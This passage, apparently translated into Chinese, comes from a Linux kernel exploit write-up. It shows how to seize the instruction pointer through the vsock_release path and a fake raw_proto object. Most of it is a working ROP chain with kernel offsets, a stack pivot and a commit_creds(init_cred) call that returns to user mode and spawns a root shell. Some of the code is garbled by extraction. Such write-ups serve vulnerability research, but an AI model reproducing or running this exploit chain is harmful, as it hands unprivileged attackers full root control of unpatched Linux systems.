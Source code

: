 现在剩下的就是找到一种可靠的方法来重定向执行流......  
  
控制 RIP  
  
为了控制指令指针，我采用了该vsock_release函数，因为它是少数不受 apparmor 保护的 vsock 功能之一。  
  
```
static int vsock_release(struct socket *sock){  struct sock *sk = sock->sk;if (!sk)    return0;  sk->sk_prot->close(sk, 0);  __vsock_release(sk, 0);  sock->sk = NULL;  sock->state = SS_FREE;return0;}
```  
  
  
我们最感兴趣的是对 的调用sk->sk_prot->close(sk, 0)。由于我们控制 sk，所以我们需要一个指向函数 的有效指针。这让我困惑了一段时间，直到我开始考虑使用其他有效的原型对象。我发现raw_proto有一个指向如下所示的中止函数的指针。  
  
```
int raw_abort(struct sock *sk, int err){  lock_sock(sk);  sk->sk_err = err;  sk_error_report(sk);  __udp_disconnect(sk, 0);  release_sock(sk);  return 0;}
```  
  
  
该函数调用 into sk_error_report，如下所示。  
  
```
void sk_error_report(struct sock *sk){  sk->sk_error_report(sk);switch (sk->sk_family) {case AF_INET:    fallthrough;case AF_INET6:    trace_inet_sk_error_report(sk);    break;default:    break;  }}
```  
  
  
因此，如果我们可以sk->sk_error_report使用堆栈枢轴小工具覆盖套接字的字段，我们就应该能够跳转到从套接字底部开始的 ROP 链。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tadaUxE9eycrpH9MyyWrS4apHaKicFnJBia98Q7Qn8bGQtUD7JF5vbCndu8iaVczVyvmqEyKwsU8MY0lQ/640?wx_fmt=jpeg&from=appmsg "")  
  
下面是覆盖之后 vsock 状态的清晰可视化。  
  
```
sk->sk_prot --> &raw_proto              ↳ .close = raw_abort                          ↳ sk->sk_error_report(sk) → *stackivot*
```  
  
  
另一个需要注意的是，需要sk_lock使用一些空字节和指针来伪造成员（这是通过大量调试确定的）。弄清楚所有这些之后，我构建了以下 ROP 链。  
  
```
long kern_base = base + off - 0x3bb1f80;printf("[*] leaked kernel base @ 0x%lx\n", kern_base);// calculate some rop gadgetslong raw_proto_abort = kern_base + 0x2efa8c0;long null_ptr = kern_base + 0x2eeaee0;long init_cred = kern_base + 0x2c74d80;long pop_r15_ret = kern_base + 0x15e93f;long push_rbx_pop_rsp_ret = kern_base + 0x6b9529;long pop_rdi_ret = kern_base + 0x15e940;long commit_creds = kern_base + 0x1fcc40;long ret = kern_base + 0x5d2;// info for returning to usermodelong user_cs = 0x33;long user_ss = 0x2b;long user_rflags = 0x202;long shell = (long)get_shell;uint64_t* user_rsp = (uint64_t*)get_user_rsp();// return to user modelong swapgs_restore_regs_and_return_to_usermode = kern_base + 0x16011a6;//getchar();printf("[+] writing the rop chain\n");close(pipes[i][0]);close(pipes[i][1]);if (pipe(&pipes[i][0]) < 0) {    perror("pipe");}printf("[+] writingpayloadtovsk\n");write(pipes[i][1], page, w-56);charbuf[0x330];memset(buf, 'A', 0x330);charnot[0x330];memset(not, 0, 0x330);// createtheropchain!write(pipes[i][1], &pop_rdi_ret, 8); // stackpivottargetwrite(pipes[i][1], &init_cred, 8);write(pipes[i][1], &ret, 8); write(pipes[i][1], &ret, 8);write(pipes[i][1], &pop_r15_ret, 8); // junkwrite(pipes[i][1], &raw_proto_abort, 8); // sk_prot (callssk->sk_error_report())write(pipes[i][1], &ret, 8);write(pipes[i][1], &commit_creds, 8); // commit_creds(init_cred);write(pipes[i][1], &swapgs_restore_regs_and_return_to_usermode, 8);write(pipes[i][1], &null_ptr, 8); // raxwrite(pipes[i][1], &null_ptr, 8); // rdiwrite(pipes[i][1], &shell, 8); // ripwrite(pipes[i][1], &user_cs, 8);write(pipes[i][1], &user_rflags, 8);write(pipes[i][1], user_rsp, 8); // rspwrite(pipes[i][1], &user_ss, 8);write(pipes[i][1], buf, 0x18);write(pipes[i][1], &not, 8); // sk_lockwrite(pipes[i][1], &not, 8); // sk_lockwrite(pipes[i][1], &null_ptr, 8); // sk_lockwrite(pipes[i][1], &null_ptr, 8); // sk_lockwrite(pipes[i][1], buf, 0x200);write(pipes[i][1], &push_rbx_pop_rsp_ret, 8); // stack pivot [sk_error_report()]//getchar();close(s); // trigger the exploit!
```  
  